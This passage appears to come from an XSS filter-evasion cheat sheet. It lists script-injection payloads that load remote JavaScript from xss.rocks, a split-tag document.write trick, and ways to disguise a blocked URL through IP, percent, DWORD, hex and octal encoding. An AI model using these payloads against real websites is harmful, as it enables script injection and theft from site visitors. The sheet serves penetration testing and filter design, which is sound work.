 Here's an XSS example that bets on the fact that the regex won't catch a matching pair of quotes but will rather find any quotes to terminate a parameter string improperly:

```html
<script a=">'>" src="httx://xss.rocks/xss.js"></script>
```

This XSS still worries me, as it would be nearly impossible to stop this without blocking all active content:

```html
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

## URL String Evasion

Assuming `http://www.google.com/` is programmatically disallowed:

### IP Versus Hostname

```html
<a href="http://66.102.7.147/">XSS</a>
```

### URL Encoding

```html
<a href="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</a>
```

### DWORD Encoding

Note: there are other of variations of Dword encoding - see the IP Obfuscation calculator below for more details:

```html
<a href="http://1113982867/">XSS</a>
```

### Hex Encoding

The total size of each number allowed is somewhere in the neighborhood of 240 total characters as you can see on the second digit, and since the hex number is between 0 and F the leading zero on the third hex quotet is not required):

```html
<a href="http://0x42.0x0000066.0x7.0x93/">XSS</a>
```

### Octal Encoding

Again padding is allowed, although you must keep it above 4 total characters per class - as in class A, class B, etc...:

```html
<a href="http://0102.0146.0007.00000223/">XSS</a>
```
